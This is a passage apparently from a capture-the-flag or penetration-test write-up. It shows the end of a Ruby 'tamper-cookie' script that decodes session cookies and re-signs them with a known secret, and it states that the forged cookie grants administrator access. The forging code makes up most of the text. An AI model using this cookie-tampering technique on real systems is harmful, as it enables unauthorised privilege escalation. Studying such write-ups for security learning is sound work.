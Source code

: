 ```ruby
        puts "( ERROR ) decode-cookie: " + err.to_s
    end
end

def main

    if ARGV.length != 2
        puts('usage: tamper-cookie <file> <secret>')
        return 1
    end

    cookies = IO.readlines(ARGV[0], chomp: true)

    for cookie in cookies

        obj = decode_cookie(cookie)
        puts("Decoded Cookie:\n")
        pp obj

        new_cookie = encode_object(obj, ARGV[1])
        puts("\nTampered Cookie:\n")
        puts(new_cookie)
    end
    return 0
end

main
```
![tamper-cookie](images/tamper-cookie.png)

Using a new cookie we can now elevate ourselves to administrator privileges.

![admin_panel](images/admin_panel.png)
